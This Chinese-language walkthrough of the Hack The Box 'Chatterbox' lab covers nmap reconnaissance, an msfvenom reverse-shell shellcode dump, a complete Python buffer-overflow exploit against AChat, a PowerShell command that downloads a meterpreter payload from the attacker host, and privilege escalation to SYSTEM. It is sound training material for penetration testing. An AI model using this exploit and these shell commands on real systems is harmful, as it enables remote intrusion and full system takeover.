




# 信息收集

## Nmap

```
root@kali# nmap -sT -p- --min-rate 5000 --max-retries 1 10.10.10.74
...
PORT     STATE SERVICE
9255/tcp open  mon
9256/tcp open  unknown
...
root@kali# nmap -sU -p- --min-rate 5000 --max-retries 1 10.10.10.74
...
All 65535 scanned ports on 10.10.10.74 are open|filtered
...
root@kali# nmap 10.10.10.74 -sV -T4 -A -O -p 9255,9256 
...
PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-title: Site doesn't have a title.
|_http-server-header: AChat
9256/tcp open  achat   AChat chat system
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 9256/tcp)
HOP RTT       ADDRESS
1   249.48 ms 10.10.14.1
2   249.69 ms 10.10.10.74

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds
...
```

我们可以发现只有两个端口显示运行了一个叫AChat的软件。

# 漏洞检测与利用

## kali搜索AChat 漏洞

```
┌──(root㉿kali)-[/home/tom/桌面]
└─# searchsploit AChat             
---------------------------------------- ---------------------------------
 Exploit Title                          |  Path
---------------------------------------- ---------------------------------
Achat 0.150 beta7 - Remote Buffer Overf | windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overf | windows/remote/36056.rb
MataChat - 'input.php' Multiple Cross-S | php/webapps/32958.txt
Parachat 5.5 - Directory Traversal      | php/webapps/24647.txt
---------------------------------------- ---------------------------------
Shellcodes: No Results
```

Google寻找exp：https://github.com/mpgn/AChat-Reverse-TCP-Exploit

但是这台靶机的exp不能够使用meterpreter，一进去就死掉，因此要做一些修改，生成payload：

> msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp  RHOST=10.10.10.74 LHOST=10.10.16.3 LPORT=4444 exitfunc=thread -e x86/unicode_upper -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python  解释：
> 
> -a x86 指定架构为 x86，即32位
> 
> --platform Windows 指定目标平台为 Windows。
> 
> -p 指定 payload 类型，这里使用的是 windows/shell_reverse_tcp，即一个反向 TCP shell。
> 
> RHOST 指定目标主机的 IP 地址，即 10.10.10.74。
> 
> LHOST 指定本地主机的 IP 地址，即 10.10.16.3。
> 
> LPORT 指定本地监听的端口，即 4444。
> 
> exitfunc 指定在 payload 执行完毕后使用 thread 方式退出，以保证 payload 能继续执行其他代码。
> 
> -e 指定编码器，这里使用的是 x86/unicode_upper，用于编码 payload 以避开检测机制。
> 
> -b 指定坏字符（bad characters），在编码时这些字符将被避免。这里指定了一长串的坏字符，包括从 \x00 到 \xff 中的所有非 ASCII 字符。
> 
> BufferRegister 指定寄存器用于保存有效负载缓冲区地址，这里是 EAX。
> 
> -f 指定输出格式，这里选择 python，即生成的 payload 将以 Python 代码形式输出。

```
┌──(root㉿kali)-[/home/tom/桌面]
└─# msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp  RHOST=10.10.10.74 LHOST=10.10.16.3 LPORT=4444 exitfunc=thread -e x86/unicode_upper -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_upper
x86/unicode_upper succeeded with size 779 (iteration=0)
x86/unicode_upper chosen with final size 779
Payload size: 779 bytes
Final size of python file: 3842 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x51\x41\x54\x41\x58\x41\x5a\x41\x50\x41\x33\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x50\x41\x35"
buf += b"\x41\x41\x41\x50\x41\x5a\x31\x41\x49\x31\x41\x49"
buf += b"\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41\x58"
buf += b"\x41\x35\x38\x41\x41\x50\x41\x5a\x41\x42\x41\x42"
buf += b"\x51\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31"
buf += b"\x31\x31\x31\x41\x49\x41\x4a\x51\x49\x31\x41\x59"
buf += b"\x41\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x33"
buf += b"\x30\x41\x50\x42\x39\x34\x34\x4a\x42\x4b\x4c\x5a"
buf += b"\x48\x33\x52\x4b\x50\x4d\x30\x4d\x30\x53\x30\x54"
buf += b"\x49\x4a\x45\x4e\x51\x39\x30\x52\x44\x44\x4b\x42"
buf += b"\x30\x4e\x50\x44\x4b\x42\x32\x4c\x4c\x44\x4b\x51"
buf += b"\x42\x4c\x54\x34\x4b\x52\x52\x4f\x38\x4c\x4f\x57"
buf += b"\x47\x4f\x5a\x4d\x56\x4e\x51\x4b\x4f\x36\x4c\x4f"
buf += b"\x4c\x43\x31\x33\x4c\x4b\x52\x4e\x4c\x4f\x30\x37"
buf += b"\x51\x58\x4f\x4c\x4d\x4b\x51\x58\x47\x39\x52\x4b"
buf += b"\x42\x42\x32\x51\x47\x34\x4b\x51\x42\x4c\x50\x34"
buf += b"\x4b\x30\x4a\x4f\x4c\x54\x4b\x30\x4c\x4e\x31\x52"
buf += b"\x58\x39\x53\x30\x48\x4d\x31\x5a\x31\x52\x31\x54"
buf += b"\x4b\x52\x39\x4d\x50\x4d\x31\x49\x43\x44\x4b\x4f"
buf += b"\x59\x4e\x38\x5a\x43\x4e\x5a\x51\x39\x54\x4b\x30"
buf += b"\x34\x34\x4b\x4b\x51\x39\x46\x30\x31\x4b\x4f\x36"
buf += b"\x4c\x47\x51\x48\x4f\x4c\x4d\x4b\x51\x57\x57\x50"
buf += b"\x38\x4b\x30\x34\x35\x4b\x46\x4d\x33\x33\x4d\x4c"
buf += b"\x38\x4f\x4b\x53\x4d\x4e\x44\x43\x45\x4b\x34\x31"
buf += b"\x48\x34\x4b\x51\x48\x4f\x34\x4b\x51\x58\x53\x51"
buf += b"\x56\x44\x4b\x4c\x4c\x30\x4b\x54\x4b\x51\x48\x4d"
buf += b"\x4c\x4b\x51\x38\x53\x34\x4b\x4c\x44\x54\x4b\x4b"
buf += b"\x51\x4a\x30\x53\x59\x50\x44\x4f\x34\x4f\x34\x31"
buf += b"\x4b\x31\x4b\x43\x31\x52\x39\x51\x4a\x32\x31\x4b"
buf += b"\x4f\x49\x50\x31\x4f\x31\x4f\x30\x5a\x44\x4b\x4d"
buf += b"\x42\x4a\x4b\x54\x4d\x51\x4d\x33\x38\x50\x33\x4e"
buf += b"\x52\x4b\x50\x4d\x30\x52\x48\x34\x37\x52\x53\x50"
buf += b"\x32\x51\x4f\x30\x54\x51\x58\x30\x4c\x44\x37\x4d"
buf += b"\x56\x4c\x47\x4b\x4f\x59\x45\x56\x58\x46\x30\x4d"
buf += b"\x31\x4d\x30\x4b\x50\x4e\x49\x59\x34\x30\x54\x32"
buf += b"\x30\x32\x48\x4f\x39\x55\x30\x32\x4b\x4d\x30\x4b"
buf += b"\x4f\x49\x45\x52\x30\x32\x30\x30\x50\x52\x30\x4f"
buf += b"\x50\x50\x50\x4f\x50\x42\x30\x52\x48\x39\x5a\x4c"
buf += b"\x4f\x59\x4f\x59\x50\x4b\x4f\x58\x55\x56\x37\x32"
buf += b"\x4a\x4b\x55\x53\x38\x4b\x5a\x4b\x5a\x4c\x50\x4c"
buf += b"\x43\x52\x48\x4b\x52\x4b\x50\x4e\x31\x51\x4c\x33"
buf += b"\x59\x39\x56\x31\x5a\x4c\x50\x31\x46\x52\x37\x53"
buf += b"\x38\x35\x49\x46\x45\x32\x54\x43\x31\x4b\x4f\x49"
buf += b"\x45\x54\x45\x39\x30\x44\x34\x4c\x4c\x4b\x4f\x50"
buf += b"\x4e\x4b\x58\x34\x35\x5a\x4c\x53\x38\x4c\x30\x57"
buf += b"\x45\x56\x42\x51\x46\x4b\x4f\x5a\x35\x52\x48\x43"
buf += b"\x33\x52\x4d\x53\x34\x4d\x30\x35\x39\x5a\x43\x52"
buf += b"\x37\x52\x37\x51\x47\x50\x31\x4a\x56\x51\x5a\x4d"
buf += b"\x42\x31\x49\x32\x36\x5a\x42\x4b\x4d\x32\x46\x57"
buf += b"\x57\x51\x34\x4d\x54\x4f\x4c\x4b\x51\x4b\x51\x54"
buf += b"\x4d\x50\x44\x4d\x54\x4c\x50\x39\x36\x4d\x30\x4f"
buf += b"\x54\x52\x34\x50\x50\x42\x36\x30\x56\x30\x56\x50"
buf += b"\x46\x32\x36\x50\x4e\x42\x36\x30\x56\x42\x33\x32"
buf += b"\x36\x42\x48\x44\x39\x38\x4c\x4f\x4f\x33\x56\x4b"
buf += b"\x4f\x5a\x35\x33\x59\x4b\x30\x30\x4e\x50\x56\x50"
buf += b"\x46\x4b\x4f\x4e\x50\x43\x38\x4c\x48\x54\x47\x4d"
buf += b"\x4d\x53\x30\x4b\x4f\x38\x55\x57\x4b\x4b\x30\x4d"
buf += b"\x4d\x4d\x5a\x4c\x4a\x32\x48\x57\x36\x45\x45\x47"
buf += b"\x4d\x45\x4d\x4b\x4f\x38\x55\x4f\x4c\x4d\x36\x53"
buf += b"\x4c\x4b\x5a\x43\x50\x4b\x4b\x59\x50\x54\x35\x4d"
buf += b"\x35\x47\x4b\x30\x47\x4e\x33\x32\x52\x32\x4f\x52"
buf += b"\x4a\x4b\x50\x42\x33\x4b\x4f\x38\x55\x41\x41"
```

bof.py：

```python
#!/bin/usr/python
import socket
import sys, time

class bcolours:
    GREEN = '\033[92m'
    TURQ = '\033[96m'
    ENDC = '\033[0m'

#YOU WILL NEED TO PASTE THE OUTPUT FROM THE SHELL SCRIPT: "ACHAT_PAYLOAD.SH" BELOW:

buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x51"
buf += b"\x41\x54\x41\x58\x41\x5a\x41\x50\x55\x33\x51\x41\x44"
buf += b"\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41"
buf += b"\x51\x41\x49\x41\x51\x41\x50\x41\x35\x41\x41\x41\x50"
buf += b"\x41\x5a\x31\x41\x49\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x58\x41\x35\x38\x41\x41\x50"
buf += b"\x41\x5a\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49"
buf += b"\x41\x49\x51\x49\x31\x31\x31\x31\x41\x49\x41\x4a\x51"
buf += b"\x49\x31\x41\x59\x41\x5a\x42\x41\x42\x41\x42\x41\x42"
buf += b"\x41\x42\x33\x30\x41\x50\x42\x39\x34\x34\x4a\x42\x4b"
buf += b"\x4c\x5a\x48\x43\x52\x4d\x30\x4d\x30\x4d\x30\x31\x50"
buf += b"\x55\x39\x5a\x45\x30\x31\x37\x50\x43\x34\x34\x4b\x50"
buf += b"\x50\x4e\x50\x54\x4b\x52\x32\x4c\x4c\x34\x4b\x42\x32"
buf += b"\x4e\x34\x34\x4b\x32\x52\x4f\x38\x4c\x4f\x37\x47\x50"
buf += b"\x4a\x4d\x56\x4e\x51\x4b\x4f\x46\x4c\x4f\x4c\x31\x51"
buf += b"\x33\x4c\x4c\x42\x4e\x4c\x4f\x30\x49\x31\x38\x4f\x4c"
buf += b"\x4d\x4d\x31\x57\x57\x49\x52\x5a\x52\x30\x52\x42\x37"
buf += b"\x34\x4b\x42\x32\x4c\x50\x44\x4b\x30\x4a\x4f\x4c\x54"
buf += b"\x4b\x30\x4c\x4c\x51\x54\x38\x5a\x43\x31\x38\x4b\x51"
buf += b"\x5a\x31\x42\x31\x34\x4b\x50\x59\x4f\x30\x4b\x51\x5a"
buf += b"\x33\x54\x4b\x51\x39\x4c\x58\x4b\x33\x4f\x4a\x51\x39"
buf += b"\x34\x4b\x30\x34\x44\x4b\x4b\x51\x4a\x36\x30\x31\x4b"
buf += b"\x4f\x36\x4c\x59\x31\x48\x4f\x4c\x4d\x4d\x31\x47\x57"
buf += b"\x30\x38\x49\x50\x54\x35\x4a\x56\x4d\x33\x43\x4d\x4a"
buf += b"\x58\x4f\x4b\x33\x4d\x4d\x54\x52\x55\x59\x54\x31\x48"
buf += b"\x54\x4b\x50\x58\x4f\x34\x4b\x51\x58\x53\x31\x56\x54"
buf += b"\x4b\x4c\x4c\x30\x4b\x44\x4b\x42\x38\x4d\x4c\x4b\x51"
buf += b"\x59\x43\x54\x4b\x4d\x34\x44\x4b\x4b\x51\x58\x50\x44"
buf += b"\x49\x31\x34\x4f\x34\x4e\x44\x51\x4b\x31\x4b\x33\x31"
buf += b"\x52\x39\x51\x4a\x30\x51\x4b\x4f\x59\x50\x31\x4f\x51"
buf += b"\x4f\x50\x5a\x44\x4b\x4e\x32\x5a\x4b\x34\x4d\x31\x4d"
buf += b"\x31\x58\x50\x33\x30\x32\x4d\x30\x4b\x50\x33\x38\x52"
buf += b"\x57\x44\x33\x4f\x42\x51\x4f\x51\x44\x42\x48\x50\x4c"
buf += b"\x33\x47\x4f\x36\x4b\x57\x4b\x4f\x58\x55\x58\x38\x44"
buf += b"\x50\x4b\x51\x4d\x30\x4d\x30\x4d\x59\x37\x54\x30\x54"
buf += b"\x52\x30\x31\x58\x4d\x59\x55\x30\x52\x4b\x4b\x50\x4b"
buf += b"\x4f\x38\x55\x52\x30\x50\x50\x42\x30\x32\x30\x51\x30"
buf += b"\x32\x30\x51\x30\x52\x30\x43\x38\x4a\x4a\x4c\x4f\x49"
buf += b"\x4f\x49\x50\x4b\x4f\x38\x55\x56\x37\x32\x4a\x4c\x45"
buf += b"\x43\x38\x4b\x5a\x4c\x4a\x4e\x30\x4d\x33\x32\x48\x4d"
buf += b"\x32\x4b\x50\x4e\x31\x51\x4c\x55\x39\x39\x56\x31\x5a"
buf += b"\x4c\x50\x32\x36\x50\x57\x42\x48\x56\x39\x35\x55\x53"
buf += b"\x44\x51\x51\x4b\x4f\x4a\x35\x44\x45\x57\x50\x53\x44"
buf += b"\x4c\x4c\x4b\x4f\x30\x4e\x4c\x48\x34\x35\x4a\x4c\x43"
buf += b"\x38\x4a\x50\x56\x55\x35\x52\x50\x56\x4b\x4f\x38\x55"
buf += b"\x33\x38\x43\x33\x52\x4d\x42\x44\x4d\x30\x55\x39\x59"
buf += b"\x53\x42\x37\x30\x57\x50\x57\x30\x31\x4b\x46\x52\x4a"
buf += b"\x4d\x42\x50\x59\x51\x46\x59\x52\x4b\x4d\x52\x46\x37"
buf += b"\x57\x50\x44\x4e\x44\x4f\x4c\x4d\x31\x4d\x31\x54\x4d"
buf += b"\x50\x44\x4d\x54\x4c\x50\x48\x46\x4d\x30\x51\x34\x42"
buf += b"\x34\x32\x30\x52\x36\x30\x56\x32\x36\x31\x36\x42\x36"
buf += b"\x30\x4e\x52\x36\x30\x56\x50\x53\x52\x36\x32\x48\x34"
buf += b"\x39\x58\x4c\x4f\x4f\x44\x46\x4b\x4f\x58\x55\x33\x59"
buf += b"\x4b\x30\x50\x4e\x42\x36\x31\x36\x4b\x4f\x4e\x50\x33"
buf += b"\x38\x4d\x38\x44\x47\x4d\x4d\x33\x30\x4b\x4f\x5a\x35"
buf += b"\x57\x4b\x39\x50\x4d\x4d\x4d\x5a\x4b\x5a\x42\x48\x45"
buf += b"\x56\x56\x35\x47\x4d\x45\x4d\x4b\x4f\x48\x55\x4f\x4c"
buf += b"\x4c\x46\x43\x4c\x4c\x4a\x53\x50\x4b\x4b\x49\x50\x32"
buf += b"\x55\x4b\x55\x37\x4b\x50\x47\x4d\x43\x33\x42\x42\x4f"
buf += b"\x42\x4a\x4b\x50\x50\x53\x4b\x4f\x38\x55\x41\x41"

def main (buf):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    server_address = ('10.10.10.74', 9256)

    fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
    p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
    p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
    p += "\x62" + "A"*45
    p += "\x61\x40"
    p += "\x2A\x46"
    p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
    p += "\x61\x43" + "\x2A\x46"
    p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
    p += buf + "A" * (1152 - len(buf))
    p += "\x00" + "A"*10 + "\x00"

    print bcolours.GREEN + "[" + bcolours.TURQ + "+" + bcolours.GREEN + "]" + bcolours.ENDC + " BUFFER OVERFLOW PAYLOAD RELEASED -- CHECK YOUR HANDLER"

    i=0
    while i<len(p):
        if i > 172000:
            time.sleep(1.0)
        sent = sock.sendto(p[i:(i+8192)], server_address)
        i += sent
    sock.close()

if __name__=='__main__':
    main(buf)
```

## 反弹shell

```
┌──(root💀kali)-[~/Desktop/Chatterbox]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.74] 49157
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred

C:\Windows\system32>

```

# 提权

当前对于Administrator的桌面文件夹有完全控制权限，因此我们无需提权就可以读取root.txt

> icacls 是 Windows 操作系统中的一个命令行工具，用于管理文件和文件夹的访问控制列表 (ACL, Access Control List)。ACL 是一个表，定义了用户或组对文件或文件夹的访问权限。使用 icacls 工具，可以查看、设置、修改和备份这些权限。
> 
> 显示文件或文件夹的权限：icacls filename
> 
> 为文件或文件夹添加权限：icacls filename /grant UserName:(permissions)
> 
> 删除文件或文件夹的权限：icacls filename /remove UserName
> 
> 替换文件或文件夹的权限：icacls filename /replace UserName:(permissions)
> 
> 备份文件或文件夹的权限：icacls filename /save aclfile /t    (aclfile 是保存权限信息的文件，/t 表示包括子目录)
> 
> 恢复文件或文件夹的权限：icacls filename /restore aclfile

```
c:\Users\Administrator\Desktop>icacls ./
icacls ./
./ NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
   CHATTERBOX\Administrator:(I)(OI)(CI)(F)
   BUILTIN\Administrators:(I)(OI)(CI)(F)
   CHATTERBOX\Alfred:(I)(OI)(CI)(F)
```









只是对root.txt没有读权限

```
c:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
```

只需要对alfred赋予完全控制权限操作root.txt，就可以操作读取该文件

```
c:\Users\Administrator\Desktop>icacls root.txt /grant alfred:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator\Desktop>type root.txt
type root.txt
4148f631....
```

## 传winpeas枚举

编译一个meterpreter `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.3 LPORT=4455 -f exe > shell.exe`

传到靶机
`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.3:8000/shell.exe','c:\Users\Alfred\Desktop\shell.exe')"`

拿到shell以后执行`post/multi/recon/local_exploit_suggester`

```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.74 - Collecting local exploits for x86/windows...
[*] 10.10.10.74 - 37 exploit checks are being tried...
[+] 10.10.10.74 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.74 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.10.74 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.74 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.74 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.74 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.74 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.74 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.74 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.74 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.

```

使用模块`exploit/windows/local/ntusermndragover`提权到system

```
msf6 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 10.10.16.3:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad.exe to host the exploit...
[+] Process 5532 launched.
[*] Injecting exploit into 5532 ...
[*] Exploit injected. Injecting payload into 5532...
[*] Payload injected. Executing exploit...
[*] Sending stage (175174 bytes) to 10.10.10.74
[*] Meterpreter session 8 opened (10.10.16.3:4444 -> 10.10.10.74:49165) at 2022-01-07 04:32:54 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```